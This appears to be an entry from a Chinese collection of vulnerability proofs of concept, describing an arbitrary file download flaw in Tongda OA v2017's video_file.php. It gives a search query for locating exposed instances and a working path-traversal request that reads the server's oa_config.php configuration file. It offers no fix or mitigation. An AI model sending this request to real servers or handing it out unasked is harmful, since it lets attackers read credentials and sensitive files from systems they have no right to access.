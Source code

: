 # 通达OA v2017 video_file.php 任意文件下载漏洞

## 漏洞描述

通达OA v2017 video_file.php文件存在任意文件下载漏洞，攻击者通过漏洞可以读取服务器敏感文件

## 漏洞影响

```
通达OA v2017
```

## 网络测绘

```
app="TDXK-通达OA"
```

## 漏洞复现

验证POC

```
/general/mytable/intel_view/video_file.php?MEDIA_DIR=../../../inc/&MEDIA_NAME=oa_config.php	
```

![image-20220715110910861](images/202207151109936.png)